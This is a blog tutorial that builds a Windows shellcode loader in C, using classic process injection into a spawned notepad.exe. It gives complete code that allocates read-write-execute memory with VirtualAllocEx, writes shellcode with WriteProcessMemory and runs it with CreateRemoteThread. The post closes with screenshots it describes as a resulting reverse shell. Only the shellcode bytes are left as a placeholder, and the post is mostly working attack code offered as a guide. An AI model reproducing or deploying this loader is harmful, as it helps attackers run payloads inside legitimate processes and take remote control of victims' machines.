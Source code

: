```yaml
---
title: Writing a Shellcode Loader in C
date: 2025-01-24 00:00:00 +/-0000
categories: [Guides]
tags: []     # TAG names should always be lowercase
---
```

In my last post, I created a shellcode generator in C. Today, we're going to write a simple shellcode loader in C that uses process injection to run the shellcode we made.

Process injection is a well-known technique that uses the VirtualAllocEx function to write shellcode into a process, then uses CreateRemoteThread to execute the shellcode. It's overt because anything keeping track of the system will notice the VirtualAllocEx call that is setting memory to PAGE_EXECUTE_READWRITE, the creation of a remote thread in a different process, plus whatever the shellcode will do (i.e. using notepad to spawn a powershell session).

Our program will work like this:
1. Initialize the shellcode array and the Win32 structs we will need.
2. Use CreateProcess to start a notepad.exe process.
3. Set a shellcode-sized area of memory in the notepad process to read/write/execute.
4. Write the shellcode into this area of memory.
5. Start a new thread in the notepad process that will execute the shellcode.

***
**Creating a New Process**

To create a notepad.exe process, we have to initialize the STARTUPINFO and PROCESS_INFORMATION structs. The PROCESS_INFORMATION struct will be used later, as it contains a handle to the new process.

```c
#include <Windows.h>
#include <stdio.h>

int main()
{
    unsigned char shellcode[] = <shellcode block>;

    //create the needed structs and initialize to zero
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    ZeroMemory(&si, sizeof(si));
    ZeroMemory(&pi, sizeof(pi));
    si.cb = sizeof(si);
    
    LPCWSTR applicationName = L"C:\\Windows\\System32\\notepad.exe";

    CreateProcess(applicationName, NULL , NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
```

***
**Writing and Executing the Shellcode**
With the notepad.exe process created, we can use the pi.hProcess field with VirtualAllocEx to set an area of memory to PAGE_EXECUTE_READWRITE:
```c
HANDLE remoteThread;
PVOID remoteBuffer;

remoteBuffer = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
```

VirtualAllocEx returns the base address of the allocated region. Now we can call WriteProcessMemory, which takes the handle to the notepad process, the base address of the memory to write to (in remoteBuffer), our shellcode, and the size of our shellcode.
```c
WriteProcessMemory(pi.hProcess, remoteBuffer, shellcode, sizeof(shellcode), NULL);
```

With our shellcode in the memory of the notepad process, we can use CreateRemoteThread to create a new thread that runs in the notepad process, with its starting point at the base address of our shellcode.
```c
remoteThread = CreateRemoteThread(pi.hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
```

Putting it all together:
```c
#include <Windows.h>

int main()
{
    unsigned char shellcode[] = <insert shellcode here>;

    //create a notepad process
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    ZeroMemory(&si, sizeof(si));
    ZeroMemory(&pi, sizeof(pi));

    si.cb = sizeof(si);
    LPCWSTR applicationName = L"C:\\Windows\\System32\\notepad.exe";

    CreateProcess(applicationName, NULL , NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);

    //open handle to our notepad process
    HANDLE remoteThread;
    PVOID remoteBuffer;

    remoteBuffer = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, remoteBuffer, shellcode, sizeof(shellcode), NULL);
    remoteThread = CreateRemoteThread(pi.hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);

    return 0;
}
```
Now we run our program and see notepad
![](assets/img/1-vc.png)

and here's our reverse shell
![](assets/img/2-rs.png)
